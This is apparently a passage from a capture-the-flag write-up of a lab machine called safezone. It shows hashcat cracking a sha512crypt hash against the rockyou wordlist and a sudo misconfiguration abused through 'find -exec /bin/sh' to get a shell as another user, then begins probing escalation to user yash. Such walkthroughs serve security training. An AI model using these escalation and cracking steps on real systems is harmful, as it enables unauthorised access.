 ```bash
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIH...rvVbc.
Time.Started.....: Wed Jul 14 06:23:24 2021 (4 secs)
Time.Estimated...: Wed Jul 14 06:23:28 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt) 
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      671 H/s (12.31ms) @ Accel:24 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2688/14344385 (0.02%)
Rejected.........: 0/2688 (0.00%)
Restore.Point....: 2640/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidates.#1....: cartoon -> nugget

Started: Wed Jul 14 06:23:23 2021
Stopped: Wed Jul 14 06:23:30 2021
```

It found the password quickly, but I was still looking around the server for ways to escalate. The user www-data was allowed to run `find` as files. 

```bash
www-data@safezone:/home$ sudo -l
Matching Defaults entries for www-data on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find
```

I looked on GTFOBins, and it gave me an easy way to [escalate to files](https://gtfobins.github.io/gtfobins/find/#sudo). 

```
www-data@safezone:/home$ sudo -u files find . -exec /bin/sh \; -quit
$ whoami
files
```


## Privilege Escalation to yash

After I connected as files, I try looking for ways to escalate my privileges again. I check for sudo permissions. They could run `id` as yash. But this didn't look really useful. 

```bash
files@safezone:~$ sudo -l
Matching Defaults entries for files on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id

files@safezone:~$ sudo -u yash id
uid=1000(yash) gid=1000(yash) groups=1000(yash),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),114(sambashare)
```
